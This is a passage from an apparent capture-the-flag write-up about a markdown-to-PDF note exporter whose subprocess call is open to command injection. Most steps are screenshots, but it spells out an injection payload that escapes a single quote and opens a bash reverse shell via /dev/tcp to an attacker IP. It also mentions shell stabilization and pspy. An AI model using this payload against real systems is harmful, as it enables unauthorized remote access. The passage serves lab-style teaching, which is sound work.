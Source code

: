<img src="https://i.imgur.com/wLo9uDq.png"/>

Downloading these backup archives, we get two versions of the source code, the one from the backup `1638395546` is having the source code for exporting notes

## Un-Intended Method

<img src="https://i.imgur.com/tfRqfBd.png"/>

And it's running a command to run a node js module passing the contents of makrdown file to convert it to pdf which is then executing a shell command with `subprocess.run` which is vulnerable to command injection

I created a markdown file having a bash reverse shell, now let's try importing it

<img src="https://i.imgur.com/0z84My2.png"/>

<img src="https://i.imgur.com/pAmvOvb.png"/>

After exporting the makrdown file we'll get this error but at our netcat listener we'll get a connection but it will just close after connecting

<img src="https://i.imgur.com/hOdmCqL.png"/>

To escapae the single quote from `$'{r.text.strip()}'` we need to use `'`  before our reverse shell and use either pipe `|` or semicolon `;` to execute the reverse shell command  at the end we'll specify `#`

```bash
' ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.51/2222 0>&1' #

```

<img src="https://i.imgur.com/rnLfJPR.png"/>

Stabilizing the shell with python3

<img src="https://i.imgur.com/vn17TBV.png"/>

I didn't find any thing in user's directory or having  seeing anything with `sudo -l` so transferred `pspy` to monitor background processes 

<img src="https://i.imgur.com/FSaMHiR.png"/>

We can also see how that single quote escape worked

<img src="https://i.imgur.com/A0u3VnJ.png"/>

## Intended Method
From the node command being executed, it's a module called `md-to-pdf`

<img src="https://i.imgur.com/SNsZ3yk.png"/>

